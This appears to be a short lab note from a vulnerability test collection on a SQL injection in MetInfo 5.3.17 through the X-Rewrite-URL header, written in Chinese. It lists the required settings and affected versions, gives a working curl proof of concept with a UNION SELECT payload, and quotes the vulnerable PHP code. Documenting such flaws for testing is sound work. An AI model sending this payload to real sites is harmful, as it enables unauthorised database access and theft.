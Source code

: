 ## 特殊说明

后台地址 `http://127.0.0.1/admin/`

## X-Rewrite-URL SQL注入

测试镜像

* src/metinfo/5.3.17/

要求

* 管理员在 `营销 -> SEO` 下面，开启伪静态
* 管理员安装了至少两种语言包，只安装中文会导致 `$lang` 被覆盖，无法注入

影响版本

* <= 5.3.17

参考链接

* [Metinfo 5.3.17 前台SQL注入漏洞分析](https://paper.seebug.org/371/)

Poc

```
curl -I 'http://127.0.0.1/index.php?lang=Cn&index=xxxx' -H "X-Rewrite-URL: 'and 1=2 union select version(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#/index.php"
```

关键代码

```
# config/config.inc.php
$met_index_type = $db->get_one("SELECT * FROM $met_config WHERE name='met_index_type' and lang='metinfo'");

..

if(count($met_langok)==1)$lang=$met_index_type;

# include/global.func.php
$dir_dirname=$dirs[count($dirs)-2];

...

if($lang==$met_index_type){
	
	...

} else {

	...

$query="select * from $met_column where foldername='$dir_dirname' and lang='$lang' and (classtype='1' or releclass!='0') order by id asc";

	...
```


